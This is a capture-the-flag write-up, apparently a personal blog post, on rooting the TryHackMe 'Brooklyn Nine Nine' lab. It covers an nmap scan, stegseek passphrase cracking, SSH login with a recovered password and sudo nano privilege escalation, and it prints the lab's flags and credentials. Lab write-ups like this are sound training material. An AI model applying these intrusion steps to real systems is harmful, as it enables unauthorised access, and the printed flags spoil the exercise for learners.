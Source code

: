 # NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)

# Brooklyn Nine Nine | A Refresher

A machine to get me back into the THM flow!

Released: 2024-06-29


## Foreword

It's been a hot minute since I've done a THM machine, let's get back into the flow with an easy machine!

## NMAP

```bash
┌──(vipin㉿vipkali)-[~]
└─$ sudo nmap -sS -sV 10.10.224.179
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-18 02:29 EDT
Nmap scan report for 10.10.224.179
Host is up (1.4s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds
```

- An NMAP scan helps us understand our *attack surface*

> [What is an attack surface](https://letmegooglethat.com/?q=what+is+an+attack+surface)

- Since ***HTTP*** is available, let's check if there is a webpage.

## Enum & Exploit to User Flag

![homepage](blog/brooklyn99/homepage.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1</small>
</div>

- The homepage just seems to be an image from the *Brooklyn Nine Nine* show.


![source](blog/brooklyn99/source.png 'Fig.2')
<div style={{ textAlign: 'center' }}>
  <small>Fig.2 *Burp Pro*</small>
</div>

> `<!-- Have you ever heard of steganography? -->`

- That's an interesting comment, this seems to be a lead. We can use ***Aperisolve*** on the image to see if there is anything hidden in the image.

![steg image](blog/brooklyn99/steghide.png 'Fig.3')
<div style={{ textAlign: 'center' }}>
  <small>Fig.3 *AperiSolve*</small>
</div>

- ***Steghide*** didn't output anything nor did any of the other tools. I have a feeling I need to guess the StegHide password...

```bash
┌──(vipin㉿vipkali)-[~]
└─$ stegseek --crack /home/vipin/Downloads/brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
                                                           
┌──(vipin㉿vipkali)-[~]
└─$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

- **OH LORDY LORD!**, that was easy... 

```bash
┌──(vipin㉿vipkali)-[~]
└─$ ssh holt@10.10.118.249
The authenticity of host '10.10.118.249 (10.10.118.249)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.118.249' (ED25519) to the list of known hosts.
holt@10.10.118.249's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

## Rooting the machine!

- A good start to ***Priv-Esc*** is with `sudo -l`. This command pretty much list's what you can run as sudo.

```bash
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

- Following [**GTFObins**](https://gtfobins.github.io/gtfobins/nano/#shell) method to get *root*, this happens...

![root](blog/brooklyn99/gtfobins_root.png 'Fig.4')
<div style={{ textAlign: 'center' }}>
  <small>Fig.4 *GTFObins*</small>
</div>

- There it is, the mighty `#`. Once you see that in your terminal, you have officially rooted this machine!

```bash
# whoami
root
# cd /root ; ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

### MACHINE PWN'ED 😎

